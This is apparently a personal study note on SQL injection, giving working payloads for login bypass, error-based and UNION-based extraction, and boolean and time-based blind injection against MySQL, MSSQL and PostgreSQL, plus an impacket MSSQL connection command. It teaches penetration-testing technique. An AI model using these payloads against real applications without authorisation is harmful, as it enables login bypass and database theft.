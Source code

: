 # SQL Injection

On Kali, to connect to an MSSQL database on a Windows machine, do:

```
impacket-mssqlclient ${USER}:${PW}@${RHOST} -windows-auth
```

Start by giving it simple queries that tell you something about what query the web application is attempting to make.
Then, use [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for inspiration on enumeration.

## Error based

When logging into an application, you might see errors from the underlying databases.
This can be a sign of potential for SQL injection.
A good starting point to check for that would be:

```
admin' OR 1=1 -- //
```

This is good against queries such as `SELECT * from users where user=$user and pw=$pw`.
The early `' OR 1=1 -- //` is an attempt at ending the query early by outcommenting the `and...` statement and instead evaluating `1=1`.


A good trick for error based injection, once you have a simple query, is to  `CAST` the value you want to a wrong type:

```
' Union SELECT null, CAST(CURRENT_USER as int), null, null, null, null from user
```

so that the value shows up in the error on the web page.

*Note* the `null,` as the first part of the select-statement.
doing a `CAST` directly after `SELECT` didn't work with postgresql.

### In-band Union based injection

When the results are shown on the page, it can be good to attempt a Union based attack.
This often happens when the underlying database runs a query like

```
SELECT * WHERE UserInfo LIKE $userInput
```
and the result is simply shown on the corresponding website.
Start by enumerating the number of collumns in the table.
Once that is done, you will be able to get a number of columns where you can see the output 


then, we can do futher enumeration like:

```
' UNION SELECT null, user(), @@version, database(), null, null  -- //
```
or enumeration queries as seen in the bottom of this note document.


Obscure way to check if a user is superuser:

```
SELECT usesuper, CASE WHEN (usesuper = true) THEN 1/(SELECT 0) ELSE (SELECT 0) END from pg_user where usename = CURRENT_USER
```

## Blind SQLi


To test for blind boolean-based SQLi, do something like:

```
admin' AND 1=1 -- //
```

This will only return true if the `admin` user exists.

Similarly, for time-based SQLi, we can do something like:

```
admin' AND IF (1=1, sleep(4),'false') 
```
which will return after 4 seconds when `admin` exists.


For time-based SQLi, do something like this with MSSQL:

```
admin' UNION SELECT null, null IF EXISTS (SELECT table_catalog, table_name FROM information_schema.columns WHERE table_name = 'users') waitfor delay '0:0:10'
```
If you don't want to use the `EXISTS` keyword, you can do stuff like:

```
admin' UNION SELECT null, null IF ((SELECT COUNT (*) FROM users) = 0) waitfor delay '0:0:10' -- //
```
keep in mind if the `users` table doesn't exist, this query does not wait.


## Good enumeration queries for MySQL

```
SELECT table_name FROM information_schema.tables
```
equivalent to `SHOW DATABASES`:
```
SELECT schema_name 
FROM information_schema.schemata;
```
